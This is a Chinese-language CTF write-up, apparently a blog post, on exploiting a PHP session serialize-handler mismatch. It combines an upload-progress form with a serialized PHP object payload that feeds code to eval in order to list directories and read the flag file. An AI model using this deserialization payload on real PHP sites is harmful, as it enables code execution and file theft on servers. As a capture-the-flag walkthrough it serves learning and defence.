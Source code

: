 PHP 内置了多种处理器用于存取 $_SESSION 数据时会对数据进行序列化和反序列化，常用的有以下三种，对应三种不同的处理格式：

![session.png][2]

配置选项 session.serialize_handler
PHP 提供了 session.serialize_handler 配置选项，通过该选项可以设置序列化及反序列化时使用的处理器：

session.serialize_handler &quot;php&quot; PHP_INI_ALL

安全隐患
通过上面对存储格式的分析，如果 PHP 在反序列化存储的 $_SESSION 数据时的使用的处理器和序列化时使用的处理器不同，会导致数据无法正确反序列化，通过特殊的构造，甚至可以伪造任意数据：）

然后就是需要找个地方控制session
于是扫了半天有个phpinfo 发现禁用了很多函数

![QQ截图20161229180252.png][3]

于是在官网找到了
http://php.net/manual/zh/session.upload-progress.php
功能是把文件的上传进度记录到session里面。用官网的改改就行
```
<form action="upload.php" method="POST" enctype="multipart/form-data">
 <input type="hidden" name="<?php echo ini_get("session.upload_progress.name"); ?>" value="123" />
 <input type="file" name="file1" />
 <input type="file" name="file2" />
 <input type="submit" />
</form>
```
然后是构造payload 测试发现禁用了很多函数 也没写成功文件 用scandir 和file_get_contents得到了flag

```
<?php
class OowoO
{
    public $mdzz;
    function __construct()
    {
       // $this->mdzz = 'phpinfo();';
	    $this->mdzz = 'print_r(scandir("/opt/lampp/htdocs"));'; 
        //$this->mdzz = 'print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));';
    }
    
    function __destruct()
    {
        //eval($this->mdzz);
    }
}
$m = new OowoO();
echo serialize($m);
?>
```
![flag0.png][4]


  [1]: http://www.tuicool.com/articles/zEfuEz
  [2]: https://img.scanfsec.com/img/2016122082157378.png
  [3]: https://img.scanfsec.com/img/2016123993631644.png
  [4]: https://img.scanfsec.com/img/2016123187191897.png
  [5]: https://img.scanfsec.com/img/2016123272738253.png
  [6]: https://img.scanfsec.com/img/2016122761767173.png
  [7]: https://img.scanfsec.com/img/2016121231310862.png
  [8]: https://img.scanfsec.com/img/201612887644193.png
  [9]: https://img.scanfsec.com/img/201612259069001.png
  [10]: https://img.scanfsec.com/img/2016122467216741.png